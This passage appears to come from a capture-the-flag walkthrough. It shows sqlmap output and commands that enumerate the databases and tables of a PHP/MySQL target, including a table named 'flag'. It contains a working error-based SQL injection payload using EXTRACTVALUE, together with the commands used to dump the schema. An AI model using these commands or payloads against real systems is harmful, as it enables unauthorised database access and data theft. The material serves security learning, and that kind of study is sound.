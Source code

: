 ```
web server operating system: Linux Debian 7 (wheezy)
web application technology: PHP 5.4.45, Apache 2.2.22
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:10:07] [INFO] fetching database names
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[18:10:19] [INFO] retrie...
[18:10:49] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[18:10:50] [INFO] retrie...
[18:10:50] [INFO] retrie...
[18:10:53] [INFO] retrie...
available databases [4]:
[*] app
[*] information_schema
[*] mysql
[*] performance_schema

[18:10:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/[..snip..]

[*] ending @ 18:10:53 /2021-11-30/
```
Now that we know the databases’ name, we can dump the tables.
```
#sqlmap -r search.req -D app --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:11:47 /2021-11-30/

[18:11:47] [INFO] parsing HTTP request from 'search.req'
[18:11:48] [WARNING] provided value for parameter 'status[1379]' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:11:48] [INFO] resuming back-end DBMS 'mysql' 
[18:11:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: status[1379] (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: status[1379]=' AND EXTRACTVALUE(5008,CONCAT(0x5c,0x7162627171,(SELECT (ELT(5008=5008,1))),0x71786b7a71)) AND 'MtZI'='MtZI&change=Save status
---
[18:11:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: PHP 5.4.45, Apache 2.2.22
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:11:51] [INFO] fetching tables for database: 'app'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[18:11:56] [INFO] retrieved: 'flag'
[18:12:04] [INFO] retrieved: 'records'
[18:12:04] [INFO] retrieved: 'pm_index'
[18:12:05] [INFO] retrieved: 'errors'
```